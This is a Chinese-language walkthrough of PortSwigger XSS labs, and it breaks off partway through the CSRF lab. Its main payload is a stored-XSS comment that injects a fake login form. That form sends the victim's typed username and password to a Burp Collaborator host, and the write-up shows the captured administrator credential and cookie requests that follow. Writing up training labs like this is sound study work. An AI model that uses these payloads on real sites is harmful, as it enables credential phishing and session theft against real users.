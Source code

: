 ```
GET /secret=KCTBgYavdncSXqcoqyz4NuDQQU4vkvSk;%20session=xE877pqOmN764sEi7mQ1qJ6cwoF7Z2Ck HTTP/1.1
```

手動用 F12 把 session 加進去餅乾就過關了

## [Lab: Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)
### 題目敘述
 This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account. 
### 題目解釋
Local 用 XSS 釣魚
### 解答
我覺得這題題目沒有講清楚，主要是被害者看到框框就會填帳密，所以做一個假的登入騙他打字
```
<input name="username">
<input name="password" type="password" onchange="new Image().src='http://alzsr5jhuaor5hw6e594b7qaq1wrkg.burpcollaborator.net/'+(document.getElementsByName('username')[0].value + ':' + document.getElementsByName('password')[0].value)">
```

就會收到

```
GET /administrator:xqrn0yctmig5fqpgsqcy HTTP/1.1
```

然後用這組帳密登入即可



## [Lab: Exploiting XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)
### 題目敘述
 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
CSRF 先偷 Token 再送資料

### 解答

我自己需要變更時，需要 Post 到
```
POST /my-account/change-email

email=aaa%40ccc.ddd&csrf=fEKGXh3N8B3D9XmgCwLwq9tqbNnH7nTT
```
